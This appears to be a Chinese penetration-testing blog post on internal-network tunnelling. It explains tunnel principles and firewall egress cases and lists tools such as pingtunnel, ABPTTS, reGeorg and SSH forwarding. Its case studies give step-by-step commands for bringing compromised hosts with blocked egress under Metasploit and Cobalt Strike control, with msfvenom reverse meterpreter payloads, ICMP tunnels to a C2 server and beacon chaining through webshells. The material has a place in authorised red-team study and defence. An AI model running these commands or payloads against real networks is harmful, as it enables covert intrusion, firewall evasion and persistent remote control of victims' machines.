






内网渗透之内网穿透
Author:last0monster
0x0 前言
网络上关于内网穿透的文章很多，但大部分都是侧重于工具的使用，原理提及较少。本文将从内网穿透的原理开始探讨，根据不同的内网出网入网情况，灵活设计对应的内网穿透方案。
0x1 内网穿透原理
内网穿透是:利用各种隧道技术，以网络防火墙允许的协议，绕过网络防火墙的封锁，实现访问被封锁的目标网络。
什么是隧道技术呢？我们看一下百科词条的解释
隧道技术是一种通过使用互联网络的基础设施在网络之间传递数据的方式。使用隧道传递的数据(或负载)可以是不同协议的数据帧或包。隧道协议将这些其他协议的数据帧或包重新封装在新的包头中发送。新的包头提供了路由信息，从而使封装的负载数据能够通过互联网络传递。被封装的数据包在隧道的两个端点之间通过公共互联网络进行路由。被封装的数据包在公共互联网络上传递时所经过的逻辑路径称为隧道。一旦到达网络终点，数据将被解包并转发到最终目的地。注意隧道技术是指包括数据封装、传输和解包在内的全过程。
我们进行内网渗透常用的隧道技术有dns隧道、http隧道、ssh隧道、icmp隧道等容易被网络防火墙放行的协议。
这些隧道技术可以按所处的协议层分层。
- 网络层隧道
ICMP隧道等
- 传输层隧道
TCP隧道、UDP隧道
- 应用层隧道
HTTP、DNS、SSH等隧道
内网主机所有可能的出网方式
- 允许ICMP协议出网
网络防火墙允许ICMP协议出网，即能ping通外网主机，一般都能出网
- 允许特定的TCP或UDP协议端口出网
网络防火墙允许特定的TCP或者UDP端口出网，比如连接外网的22、53、80、443、3389等常见应用的默认监听端口。在一个不能出网的网络环境里面，将所有的TCP和UPD端口都探测一遍，通常都能发现有一两个常见的端口能出网。这通常是由于网络管理员的错误配置和偷懒行为导致。比如配置的防火墙规则前后矛盾，解析的时候遇到匹配规则就退出执行；比如网络管理员配置允许web服务器访问另一子网的mysql数据库的3306端口。网络管理员配置时偷懒，可能会直接放行web服务器到任意ip地址的3306端口
- 允许特定的应用层协议出网（比如HTTP、SSH、DNS等应用层协议）
这种网络防火墙能识别应用层的协议，放行允许出网的协议，比如HTTP、SSH、DNS、RDP等应用层协议;通常办公网是允许HTTP协议出网的，可能会域名白名单限制
内网主机所有可能的入网方式
允许ICMP协议入网
能ping通目标主机
允许特定的TCP或UDP协议端口入网
NAT端口映射公网IP端口到内网主机的服务端口，比如将web服务、mysql服务NAT映射到公网
允许特定的应用层协议入网
这种网络防火墙能识别应用层的协议，放行允许入网的协议。比如HTTP反向代理，将公网收到的HTTP流量反向代理进内网主机。当前主流的入网方式，通常会加层WAF审查入网流量
0x2 内网穿透常用工具
0x2.1 网络层隧道工具
-
能通过ICMP协议反弹cmd，功能单一，反弹回来的cmd极不稳定，不推荐使用
-
创建虚拟网卡通过ICMP协议传输网卡流量，基于ICMP隧道的vpn，需要root权限，动静极大，不推荐使用
-
tcp、udp、socks5 over ICMP，速度快，连接稳定，跨平台，client模式不需要管理员权限即可正常使用，推荐使用
0x2.2 传输层隧道工具
- netcat
网络工具中的瑞士军刀，不多介绍，linux系统一般自带
- powercat
powershell版的netcat
- socat
具有记录转发流的功能，方便查看转发内容，需要安装
- netsh
windows系统自带的网络配置工具
- lcx
端口转发工具
- NATBypass
一款lcx在golang下的实现,更好的跨平台，更完善的文档
- iox
端口转发 & 内网代理工具，功能类似于lcx/ew，简化了命令行参数，支持UDP流量转发，更好的跨平台。缺点：不支持监听指定IP，默认监听0.0.0.0:port，会增大暴露风险
0x2.3 应用层隧道工具
由于应用层协议极多，对应的隧道工具也很多，我们常用来做隧道的协议一般是DNS、HTTP、SSH、SOCKS等
- dnscat2
不仅可以创建DNS隧道，更是C2
- dnscat2-powershell
dnscat2的powershell客户端
- dns2tcp
TCP over DNS,即通过DNS隧道转发TCP连接
- iodine
IPv4 over DNS，即通过DNS隧道转发IPv4数据包
- reGeorg
SOCKS over HTTP,即通过HTTP隧道转发SOCKS
- Neo-reGeorg
重构版reGeorg，提高稳定性和可用性，避免特征检测，更新活跃
- reDuh
TCP over HTTP,即通过HTTP隧道转发TCP连接，隧道不稳定
- Tunna
TCP、SOCKS over HTTP,即通过HTTP隧道转发TCP连接和SOCKS，隧道不稳定
- ABPTTS
TCP over HTTP,即通过HTTP隧道转发TCP连接,数据加密，可自定义HTTP数据，对抗特征检测十分优秀，创建的隧道十分稳定，比较遗憾的是支持的web脚本类型只有aspx和jsp
- EarthWorm
十分方便的多级SOCKS代理，已经永久停止更新
- Termite
EarthWorm的升级版，已经永久停止更新
- Venom
Venom是一款为渗透测试人员设计的使用Go开发的多级代理工具。
- ssocks
正向和反向的socks工具，可执行文件的大小很小
- s5.go
go语言编写的socks服务工具，良好的跨平台特性
- ssh
本地转发：远程转发：1
2ssh -CNfg -L 127.0.0.1:7777:114.114.114.114:9999 root@192.168.1.1
#ssh客户端监听127.0.0.1:7777, 将收到的tcp数据包通过连接到192.168.1.1的ssh隧道转发到ssh服务端，再由服务端转发到114.114.114.114:9999动态转发：1
2ssh -CNfg -R 127.0.0.1:7777:114.114.114.114:9999 root@192.168.1.1
#ssh服务端监听127.0.0.1:7777, 将收到的tcp数据包通过连接到192.168.1.1的ssh隧道转发到ssh客户端，再由ssh客户端转发到114.114.114.114:9999构建ssh隧道的常用参数:1
2ssh -CNfg -D 127.0.0.1:7777 root@192.168.1.1
# ssh客户端监听127.0.0.1:7777开启socks服务，将收到的socks数据包通过连接到192.168.1.1的ssh隧道转发到ssh服务端，再由ssh服务端转发到目标地址1
2
3
4
5
6
7
8-C 压缩传输，提高传输速度
-f 后台执行数据传输
-N 建立静默连接
-g 允许远程主机连接本地用于转发的端口
-L 本地端口转发
-R 远程端口转发
-D 动态转发，即SOCKS代理
-p 指定ssh连接端口
0x3 实战中的内网穿透案例
0x3.1 上线零出网的内网主机
实战背景：获取了webshell的主机位于内网，并且该内网主机icmp等网络层协议不能出网，tcp和udp等传输层协议不能出网，dns、http等应用层协议也不能出网，唯一的数据通道是反向代理入网的web应用。
方案设计
利用反向代理入网的web应用所在的HTTP连接，构建正向的TCP over HTTP隧道。通过这条隧道，我们可以向内网主机发起tcp连接。生成bind类型的payload，通过webshell上传执行就会监听一个端口，我们的远控平台通过构建的TCP over HTTP隧道，去连接监听的端口即可上线。
能构建TCP over HTTP的隧道的工具有ABPTTS、Tunna、reDuh等，由于Tunna、reDuh构建的tcp连接不稳定，这里选用ABPTTS。
0x3.1.1 上线metasploit
1.通过正向的http隧道构建tcp连接
1 | # 配置abptts运行环境 |
2.生成bind类型的payload，通过webshell上传执行
1 | # 这里的rhost和lport是转发的目的IP和端口 |
3.启动msf监听，等待meterpreter执行上线
1 | #这里的rhost和lport是abptts客户端监听的IP和端口，msf所在主机必须能访问到这个IP和端口，这里msf和abptts在同一个主机上 |
0x3.1.2 上线cobaltstrike
由于cobaltstrike的bind类型的监听器仅有beacon TCP和beacon SMB，并且都必须连接到父beacon，无法直接连接cobalstrike服务端，所以我们需要一个父beacon来中转连接。
1.通过正向的http隧道构建tcp连接
1 | # 配置abptts运行环境 |
2.创建反向的listener

3.生成父beacon

4.上传父beacon到abptts客户端执行上线

5.创建payload为tcp beacon的listener

6.生成stageless的子beacon

7.将生成的子beacon通过webshell上传执行
1 | # 可以通过webshell查看网络监听，确保子beacon执行成功 |
8.在父beacon中连接abptts的监听ip和端口

9.成功上线不能出网的webshell内网主机

0x3.2 上线仅icmp协议出网的内网主机
实战背景：通过某种信道获取了内网主机的shell，但是当前信道不适合做远控的通信信道（比如站库分离的网站，我们通过sql注入获取了数据库服务器的shell，但是数据库服务器只有icmp协议可以出网），tcp和udp等传输层协议不能出网，dns、http等应用层协议也不能出网，只有icmp协议可以出网。
方案设计
icmp协议可以出网，可以利用icmp协议，构建反向的TCP over ICMP隧道或者SOCKS over ICMP隧道上线远控平台。搭建隧道的工具使用pingtunnel，它能通过icmp隧道转发tcp、udp、socks5连接。
0x3.2.1 icmp隧道转发tcp上线metasploit
1.准备好一个具有公网ip的服务器，root权限运行以下命令，启动ICMP隧道服务端
1 | ./pingtunnel -type server -noprint 1 -nolog 1 |
2.ICMP隧道客户端（即需要通过ICMP隧道上线的主机）执行以下命令即可成功创建反向ICMP隧道
1 | pingtunnel.exe -type client -l 127.0.0.1:9999 -s icmpserver_ip -t c2_server_ip:7777 -tcp 1 -noprint 1 -nolog 1 |
3.生成反向payload的meterpreter并上传到ICMP隧道客户端执行即可上线
1 | msfvenom -p windows/meterpreter/reverse_https lhost=127.0.0.1 lport=9999 -f exe -o meterpreter.exe |
4.启动msf监听，等待meterpreter执行上线
1 | # 这里的lhost和lport为icmp客户端转发到的ip和端口 |
0x3.2.2 icmp隧道转发socks上线metasploit
1.准备好一个具有公网ip的服务器，root权限运行以下命令，启动ICMP隧道服务端
1 | ./pingtunnel -type server -noprint 1 -nolog 1 |
2.ICMP隧道客户端（即需要通过ICMP隧道上线的主机）执行以下命令即可成功创建反向ICMP隧道
1 | pingtunnel.exe -type client -l 127.0.0.1:6688 -s icmpserver_ip -sock5 1 -nolog 1 -noprint 1 |
3.生成支持socks5代理的反向payload的meterpreter并上传到ICMP隧道客户端执行即可上线
1 | msfvenom -p windows/meterpreter/reverse_https LHOST=c2_server_ip LPORT=8443 HttpProxyType=SOCKS HttpProxyHost=127.0.0.1 HttpProxyPort=6688 -f exe -o meterpreter.exe |
4.启动msf监听，等待meterpreter执行上线
1 | msf5 > use exploit/multi/handler |
0x3.2.3 icmp隧道转发tcp上线cobaltstrike
1.准备好一个具有公网ip的服务器，root权限运行以下命令，启动ICMP隧道服务端
1 | ./pingtunnel -type server -noprint 1 -nolog 1 |
2.ICMP隧道客户端（即需要通过ICMP隧道上线的主机）执行以下命令即可成功创建反向ICMP隧道
1 | pingtunnel.exe -type client -l 127.0.0.1:9999 -s icmpserver_ip -t c2_server_ip:7777 -tcp 1 -noprint 1 -nolog 1 |
3.cobaltstrike创建listener

1 | # https host和https port(c2)为icmp隧道客户端的监听ip和端口 |
4.生成反向payload的beacon

5.上传生成的beacon到ICMP隧道客户端执行，成功通过反向ICMP隧道上线

0x3.2.4 icmp隧道转发socks上线cobaltstrike
1.准备好一个具有公网ip的服务器，root权限运行以下命令，启动ICMP隧道服务端
1 | ./pingtunnel -type server -noprint 1 -nolog 1 |
2.ICMP隧道客户端（即需要通过ICMP隧道上线的主机）执行以下命令即可成功创建反向ICMP隧道
1 | pingtunnel.exe -type client -l 127.0.0.1:6688 -s icmpserver_ip -sock5 1 -nolog 1 -noprint 1 |
3.cobaltstrike创建listener

1 | # 这里的代理可以是socks或者http |
4.选择创建的listener生成beacon上传到目标执行即可上线
0x4 总结
内网渗透中内网穿透的本质，无非是通过各种通信信道，无论是正向的还是反向的，实现传输层协议tcp/udp数据包的转发，应用层协议都是基于传输层的协议实现的。比如ABPTTS + SOCKS服务 = reGeorg
内网渗透中的内网穿透的条件，能通过某种通信信道远程代码执行。如果能通过某种通信信道远程代码执行，一定可以通过这种通信信道实现tcp/udp数据包的转发，即TCP/UDP over something隧道。如果没有现成的工具，可能需要我们自己开发。比如，通过sql注入获取了shell，我们也可以利用这条通信信道转发tcp/udp数据包，没有现成的工具，需要我们开发工具而已，隧道客户端将tcp/udp数据包封装写进数据库，再由隧道服务端从数据库中读出封装的数据包解包，发往对应地址即可